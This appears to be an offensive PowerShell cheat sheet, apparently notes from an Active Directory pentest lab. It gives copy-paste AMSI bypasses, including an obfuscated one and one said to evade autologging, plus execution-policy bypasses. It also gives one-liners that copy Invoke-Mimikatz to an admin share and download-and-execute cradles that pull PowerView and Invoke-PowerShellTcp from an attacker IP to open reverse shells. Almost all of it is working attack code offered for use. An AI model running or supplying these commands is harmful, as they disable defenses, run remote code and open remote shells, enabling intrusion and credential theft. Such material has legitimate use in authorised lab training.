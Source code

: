 
Plain AMSI bypass:
```
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

Obfuscation example for copy-paste purposes:
```
sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```

Another bypass, which is not detected by PowerShell autologging:
```
[Delegate]::CreateDelegate(("Func``3[String, $(([String].Assembly.GetType('System.Reflection.Bindin'+'gFlags')).FullName), System.Reflection.FieldInfo]" -as [String].Assembly.GetType('System.T'+'ype')), [Object]([Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')),('GetFie'+'ld')).Invoke('amsiInitFailed',(('Non'+'Public,Static') -as [String].Assembly.GetType('System.Reflection.Bindin'+'gFlags'))).SetValue($null,$True)`
```

Bypass digitally signed:
```
Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass
powershell -ep bypass
```

For more obfuscation, check Invoke-Obfuscation.

## PowerShell One-liners

Copy file:
```
Copy-Item -Path Invoke-MimikatzEx.ps1 -Destination \\dcorp-adminsrv.dollarcorp.moneycorp.local\c$\'Program Files' Copy-Item [source] [dest]
```
Show file content
```
Get-Content \\computer.domain.local\c$\Users\test\file.txt
```
List network share:
```
ls \\computer.domain.local\c$ 
```
Show running processes with owner:
```
Get-Process -IncludeUserName
```
Download:
```
iex (iwr http://172.16.100.124/Tools/PowerView.ps1 -UseBasicParsing)
```
Download and execute:
```
powershell.exe iex (iwr http://172.16.100.124/Tools/Invoke-PowerShellTcp.ps1 -UseBasicParsing);Power -Reverse -IPAddress 172.16.4.101 -Port 443

powershell.exe -c iex ((New-Object Net.WebClient).DownloadString('http://172.16.100.124/Toold/Invoke-PowerShellTcp.ps1'));Power -Reverse -IPAddress 172.16.100.124 -Port 443
```
